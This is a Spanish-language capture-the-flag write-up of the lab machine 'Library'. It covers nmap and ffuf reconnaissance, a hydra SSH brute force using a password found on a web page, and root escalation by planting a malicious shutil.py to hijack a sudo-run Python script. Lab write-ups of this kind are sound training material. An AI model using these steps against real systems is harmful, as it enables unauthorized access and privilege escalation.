### Informe de máquina *"Library"*



Vamos a realizar la maquina "Library", como siempre vamos a empezar asignando permisos de ejecución al archivo `auto_deploy.sh` eh inicializamos la maquina con `sudo ./autodeploy ` `library.tar`




Realizamos un testeo de conexión con el comando `ping`.



Y realizamos un escaneo de puertos abiertos con la herramienta `nmap`, el comando usado fue:

```bash
nmap -sS --min-rate 5000 -p- -vvv -Pn -n 172.17.0.2 -oG nmap
```

- `nmap` → Comando para ejecutar herramienta nmap.
- `-sS` → Escaneo SYN ("Stealth Scan"). Envía paquetes SYN sin completar la conexión TCP (más rápido y sigiloso que -sT).
- `--min-rate 5000` → Fuerza a nmap a enviar al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-p-` → Escanea todos los 65535 puertos (en lugar de solo los más comunes).
- `-vvv` → Modo muy detallado (muestra más información en pantalla mientras se ejecuta).
- `-Pn` → No realiza detección de host (asume que el host está activo y no envía ping previo).
- `-n` → No resuelve nombres de dominio (evita consultas DNS, lo que acelera el escaneo).
- `172.17.0.2` → IP objetivo a escanear.
- `-oG nmap` → Guarda los resultados en formato "greppable" en un archivo llamado nmap.



Encontramos los puertos `22` y `80` abiertos, procedemos a realizar un escaneo más detallada de estos.

```bash
nmap -p22,80 -sC -sV -O 172.17.0.2
```

- `nmap` → Ejecuta la herramienta de escaneo de red Nmap.

- `-p22,80` → Especifica los puertos que queremos escanear. En este caso 22 y 80.

- `-sC` → Ejecuta scripts de detección predeterminados

- `-sV` → Detección de versiones de servicios.

- `-O` → Detección del sistema operativo.

- `172.17.0.2` → Especifica la dirección IP del objetivo a escanear.



Continuamos a revisar que encontramos en la página web de inicio.



No se encuentra mucha información, solo la página por defecto de servidor Apache 2.
Procedemos a realizar un ataque de fuzzing al servidor web.

```bash
ffuf -u http://172.17.0.2/FUZZ -w /usr/share/wordlists/dirb/big.txt -t 20 -e .php,.txt,.html,.php.bak
```



Encontramos que existe también un archivo llamado "index.php"



Encontramos un texto que dice `JIFGHDS87GYDFIGD` suponemos que es una posible contraseña de algún usuario del servidor.

Realizamos un ataque de fuerza bruta en búsqueda de un usuario que coincida con esa contraseña

```bash
hydra -L /usr/share/wordlists/john.lst -p "JIFGHDS87GYDFIGD"  ssh://172.17.0.2 -t 10
```



Accedemos al servidor por ssh con el usuario mario.
Revisamos que binarios puede ejecutar con permisos sudo con el comando `sudo -l`



Encontramos que puede usar el binario python3 con privilegios hacia el archivo `/opt/script.py`.



Ejecutando `cat` a ese archivo vemos que importa una librería llamada `shutil`.
Podemos crear un archivo en ese mismo directorio `/opt` con ese mismo nombre con extensión py.
Consultamos como ejecutar una shell con python en [GTFOBins](https://gtfobins.github.io/)



Con el comando `nano /opt/shutil.py` editamos nuestro archivo de la siguiente forma:

```python
import os
os.system("/bin/bash")
```

Guardamos el archivo.
Ahora ejecutamos el comando `sudo python3 /opt/script.py` y se nos inicia una shell, donde ejecutando el comando `whoami` observamos que somos usuarios `root`


